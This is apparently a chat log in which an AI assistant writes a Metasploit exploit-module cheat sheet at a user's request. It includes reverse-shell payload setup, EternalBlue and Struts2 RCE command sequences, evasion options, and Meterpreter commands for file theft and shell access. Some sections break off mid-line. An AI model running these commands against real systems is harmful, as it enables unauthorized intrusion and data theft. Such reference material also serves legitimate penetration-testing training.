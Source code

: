 
Metasploit **exploit modules** are pre-built scripts or payloads designed to take advantage of vulnerabilities in software, systems, or networks. These modules are part of the **Metasploit Framework (MSF)**, a penetration testing tool used for security assessments and ethical hacking.

### Key Features of Exploit Modules:
1. **Target-Specific Exploits** – They focus on known vulnerabilities in operating systems, applications, or services (e.g., EternalBlue for Windows SMB).
2. **Payload Delivery** – They often include or work with payloads (like reverse shells) to execute commands post-exploitation.
3. **Customization** – Users can configure options such as target IP, port, and exploit parameters.
4. **Integration with Auxiliary Modules** – Used alongside scanners, fuzzers, and post-exploitation tools.
5. **Automation** – Simplifies exploitation by handling complex attack chains.

### Example Commands:
```bash
use exploit/windows/smb/ms17_010_eternalblue  
set RHOSTS <target_IP>  
exploit  
```

Create a cheat sheet extensive for further ellaboration


# **Metasploit Exploit Modules Cheat Sheet**  

This cheat sheet provides an in-depth reference for using **Metasploit exploit modules**, including key commands, workflow, and advanced techniques.  

---

## **1. Understanding Exploit Modules**  
Exploit modules are scripts that leverage vulnerabilities to gain unauthorized access or execute arbitrary code.  

### **Types of Exploits**  
| Type | Description | Example Module |
|------|------------|----------------|
| **Remote Exploits** | Target vulnerabilities over a network | `exploit/multi/http/struts2_code_exec` |
| **Local Exploits** | Require prior access to the system (privilege escalation) | `exploit/linux/local/sudo_baron_samedit` |
| **Client-Side Exploits** | Target user applications (e.g., browsers, PDF readers) | `exploit/windows/fileformat/adobe_pdf_embedded_exe` |
| **Web App Exploits** | Attack web servers, CMS, APIs | `exploit/unix/webapp/wp_admin_shell_upload` |

---

## **2. Basic Workflow for Using Exploits**  

### **Step 1: Search for an Exploit**
```bash
search type:exploit <keyword>  # e.g., search type:exploit eternalblue
```

### **Step 2: Select & Load the Module**
```bash
use exploit/<path_to_module>   # e.g., use exploit/windows/smb/ms17_010_eternalblue
```

### **Step 3: Configure Required Options**
```bash
show options                  # View required settings
set RHOSTS <target_IP>       # Set target IP(s)
set RPORT <port>             # Set port if non-default
set PAYLOAD <payload_path>   # Optional: Override default payload (e.g., windows/x64/meterpreter/reverse_tcp)
```

### **Step 4: Run the Exploit**
```bash
exploit                      # Launch the exploit
run                          # Alternative command
```

---

## **3. Advanced Configuration & Techniques**

### **Payload Customization**
- List available payloads:
  ```bash
  show payloads  
  ```
- Set a custom payload:
  ```bash
  set PAYLOAD windows/meterpreter/reverse_tcp  
  set LHOST```

```bash
set LHOST <your_IP>          # Set listener IP (for reverse shells)
set LPORT <custom_port>      # Set listener port
```

### **Exploit Reliability & Evasion**
- Check exploit reliability:
  ```bash
  check                     # Test if target is vulnerable (not all modules support this)
  ```
- Evasion techniques:
  ```bash
  set EnableContextEncoding true   # Obfuscate payload  
  set DisablePayloadHandler true   # Skip automatic handler setup  
  ```

### **Multi-Handler for Payloads**
If payload execution is delayed, manually start a handler:
```bash
use exploit/multi/handler  
set PAYLOAD <matching_payload>  
set LHOST <your_IP>  
set LPORT <port>  
exploit -j                 # Run as a job
```

---

## **4. Post-Exploitation with Meterpreter**  

After successful exploitation (if using Meterpreter):  

| Command | Description |
|---------|-------------|
| `sysinfo` | View system information |
| `getuid` | Check current user privileges |
| `shell` | Drop into a system shell |
| `upload /local/file C:\\path` | Upload files to target |
| `download C:\\file.txt /tmp` | Download files from target |

---

## **5. Common Exploit Examples**  

### **EternalBlue (MS17-010)**
```bash
use exploit/windows/smb/ms17_010_eternalblue  
set RHOSTS 192.168.1.100  
set PAYLOAD windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.1.5  
exploit
```

### **Apache Struts2 RCE**
```bash
use exploit/multi/http/struts2_code_exec  
set RHOSTS vuln-server.com  
set TARGETURI /login.action  
set PAYLOAD linux/x86/shell_reverse_tcp  
exploit
```

---

## **6. Troubleshooting Exploits**  

- **"Exploit completed but no session"**: Verify payload compatibility (`show targets`).  
- **"Target not vulnerable"**: Double-check service
Continue from above append but dont start from begining

 Here’s the continuation of the **Metasploit Exploit Modules Cheat Sheet**, starting from where the previous section left off (Troubleshooting Exploits):

---

## **6. Troubleshooting Expl